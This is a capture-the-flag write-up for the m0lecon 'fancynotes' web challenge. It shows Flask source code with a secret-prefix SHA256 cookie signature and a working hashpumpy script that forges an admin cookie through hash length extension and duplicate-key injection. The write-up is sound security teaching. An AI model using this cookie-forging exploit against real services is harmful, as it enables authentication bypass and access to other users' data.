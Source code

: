 # fancynotes

Categories: Web

Description:
> Hello my friend, I need your help!
> As you know, in Italy food is very important and I'm not good at it... but I want to surprise my parents with a special recipe.
> I asked Marco Giordano for an advice, he is very good, but he didn't want to reveal his secrets...
> I know he saves his recipes on [Fancy Notes](https://fancynotes.m0lecon.fans/), find a way to steal them.
> 
> Author: @RxThorn
> 
> [Source code](https://ctf.m0lecon.it/attachments/391035157d504163961bb2d526b36eb6/fancynotes.zip)

**Tags:** Hash Length Extension SHA, Cookies, Authentication, Flask

## Takeaways

* Hash Length extension attack
* Logging with flask:
    ```python
    # In __init__.py where the app is created:
    app.logger.setLevel(logging.DEBUG)

    # In any other python file (e.g. routes.py):
    from flask import current_app as app

    app.logger.debug('Foobar')
    ```

## Solution

Upon vising the website we are presented with the following page.

![index.png](writeup-resources/index.png)

It is a simple web app where you register, and then you login, and you can make notes.

![create-note.png](writeup-resources/create-note.png)             |  ![notes.png](writeup-resources/notes.png)
:-------------------------:|:-------------------------:

So, let's check the source code to see how we can get the flag.

```python
def init_db(db):
    username = "admin"
    password = random_string(20)

    if User.query.filter_by(username=username).count() > 0:
        return

    user = User(username=username, password=hashlib.sha256(
        password.encode()).hexdigest(), locale='en'
    )
    note = Note(title="flag", body=os.environ.get("FLAG"))
    user.notes.append(note)
    db.session.add(user)
    db.session.commit()
```

So, as we can see, we have to login as `admin` in order to access their notes and get the flag.

The bug lies in the user authentication. When a request arrives, we first check if the user has authenticated

```python
@app.route('/notes', methods=['POST', 'GET'])
def notes():
    user = get_user()
    if not user:
        return redirect("/login")
def get_user():
    if not 'user' in request.cookies:
        return None
    # ... reconstruct user from cookie #
    return user
```

So, let's check how the `user` cookie is created

```python
@app.route('/login', methods=['POST', 'GET'])
def login():
    if request.method == 'POST':
        response = make_response(redirect("/notes"))
        response.set_cookie('user', generate_cookie(user))
        return response

def generate_cookie(user):
    SECRET_KEY = os.environ.get("SECRET_KEY")
    user_string = deserialize_user(user)
    signature_string = hashlib.sha256(
        (SECRET_KEY + user_string).encode('raw_unicode_escape')).hexdigest()
    cookie = base64.b64encode(
        (f'{user_string}|{signature_string}').encode('raw_unicode_escape')).decode()
    return cookie

def deserialize_user(user):
    values = []
    for k in ["username", "locale"]:
        values.append(f'{k}={user.__dict__[k]}')
    return ','.join(values)
```

So, as an example:

![login.png](writeup-resources/login.png)

`user=dXNlcm5hbWU9ZmFuZSxsb2NhbGU9ZW58Yjg0ZTkxZmU4ZDNmOTkyYmFlYWQ1OGRhODEzYjg0ZjNmYjcxZDg4MzI3ZTEzNDVjY2QwMWRkNmIyODQwYTI2YQ==`

And the value base64-decodes to:

`username=fane,locale=en|b84e91fe8d3f992baead58da813b84f3fb71d88327e1345ccd01dd6b2840a26a`

So, `user_string="username=fane,locale=en"` and `signature_string` is the hash of a secret key concatenated with the `user_string`.

Now, let's check how the server reconstructs the user information from the cookie:

```python
@app.route('/notes', methods=['POST', 'GET'])
def notes():
    user = get_user()
    if not user:
        return redirect("/login")

def get_user():
    if not 'user' in request.cookies:
        return None

    SECRET_KEY = os.environ.get("SECRET_KEY")
    cookie = base64.b64decode(request.cookies.get('user')).decode('raw_unicode_escape')
    assert len(cookie.split('|')) == 2
    user_string = cookie.split('|')[0]
    signature_string = cookie.split('|')[1]

    if hashlib.sha256((SECRET_KEY + user_string).encode('raw_unicode_escape')).hexdigest() != signature_string:
        print("nope")
        return None

    user = serialize_user(user_string)
    return user
```

The server re-computes the hash from the `user_string` sent and its secret, and compares it with the provided hash to determine the integrity of the cookie.

SHA256 is vulnerable to Hash length extension attacks: Given `H(msg1)` and the length of `msg1`, we can compute `H(msg1 || msg2)` with an attacker controlled `msg2`. So, we partially know `msg1` and we can append stuff to the `user_string`, so we also control `msg2`. But, how about the length of `msg1`? We do not know the length of the `SECRET_KEY`. We can brute-force it as it shouldn't be reasonably anything longer than 256 characters (and that is an overapproximation!).

So, we can affect `user_string` and generate spoofed signatures. But how can we abuse this? Let's take a closer look at how the `user` object is generated from the serialized data

```python
def serialize_user(user_string):
    user = dict()
    for kv in user_string.split(','):
        k = kv.split('=')[0]
        v = kv.split('=')[1]
        user[k] = v
    return user
```

Remember the example `user_string="username=fane,locale=en"`. The `serialize_user()` function will iterate over the key-value pairs in the string and set them. We can add another `,username=admin` key-pair to overwrite the previous value and set our username to admin. This will escalate our privileges to the `admin` user.

So, let's write our exploit:

```python
# cookie `user` value 
# username=fane,locale=en|b84e91fe8d3f992baead58da813b84f3fb71d88327e1345ccd01dd6b2840a26a
cookie = "dXNlcm5hbWU9ZmFuZSxsb2NhbGU9ZW58Yjg0ZTkxZmU4ZDNmOTkyYmFlYWQ1OGRhODEzYjg0ZjNmYjcxZDg4MzI3ZTEzNDVjY2QwMWRkNmIyODQwYTI2YQ=="
cookie = base64.b64decode(cookie).decode('ascii')

user_string, signature_str = cookie.split('|')
Hmessage1 = signature_str
message1_length = 1

message2 = ',username=admin'
while message1_length < 256:
    new_signature, new_msg = hashpumpy.hashpump(signature_str, user_string, message2, message1_length)

    new_cookie = new_msg + b'|' + bytes(new_signature, encoding='utf-8')
    new_cookie = base64.b64encode(new_cookie).decode('ascii')

    s = requests.Session()
    cookie_obj = requests.cookies.create_cookie(
        name="user", value=new_cookie
    )
    s.cookies.set_cookie(cookie_obj)

    r = s.get('http://127.0.0.1:5000/notes', verify=False, allow_redirects=False)
    print(r.text)
    if 'admin' in r.text:
        flag = re.search(r'ptm{.+}', r.text).group(0)
        break

    message1_length += 1

print("Logged in!")
print("Message1 length: " + str(message1_length))
print("user=" + new_cookie)
print("Flag: " + flag)
```

And we get the flag

`ptm{pleaseD0NOTUseCr3am1nCarbon4r4!}`
